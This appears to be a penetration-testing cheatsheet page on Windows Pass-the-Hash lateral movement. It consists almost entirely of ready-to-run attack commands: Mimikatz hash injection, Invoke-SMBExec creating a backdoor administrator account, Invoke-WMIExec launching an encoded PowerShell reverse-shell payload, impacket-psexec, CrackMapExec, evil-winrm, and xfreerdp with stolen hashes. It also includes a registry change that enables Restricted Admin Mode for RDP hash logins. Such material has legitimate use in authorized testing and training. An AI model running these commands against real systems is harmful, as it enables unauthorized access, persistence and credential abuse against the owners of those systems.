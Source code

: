 # Pass the Hash

Follow [this link](/lateral-movement/windows/pass-the-hash) to access the Pass the Hash section.

You can steal the hashes by following the [Dumping Credentials](/commands-cheatsheet/windows/dumping-credentials) section.

## Mimikatz

```batch
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<domain> /run:cmd.exe" "exit"
```

## Invoke-TheHash

### SMBExec

```powershell
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target <ip> -Domain <domain> -Username <user> -Hash <hash> -Command "net user attacker Password123 /add && net localgroup administrators attacker /add" -Verbose
```

### WMIExec with reverse shell

Create a reverse shell using [RevShells](https://www.revshells.com/).

```powershell
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target <target> -Domain <domain> -Username <user> -Hash <hash> -Command "powershell -e <base64 encoded payload>"
```

## Impacket

### PsExec

```bash
impacket-psexec <user>@<ip> -hashes :<hash>
```

## CrackMapExec

```bash
crackmapexec smb <ip> -u <user> -d . -H <hash>
```

:::info Local Authentication

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command.

:::

## evil-winrm

```bash
evil-winrm -i <ip> -u <user> -H <hash>
```

## RDP with GUI

:::caution Restricted Admin Mode

Restricted Admin Mode, which is disabled by default, should be enabled on the target host.

This can be enabled by adding a new registry key `DisableRestrictedAdmin (REG_DWORD)` under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of `0`. It can be done using the following command:

```batch
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

:::

### xfreerdp

```bash
xfreerdp /v:<ip> /u:<user> /pth:<hash>
```
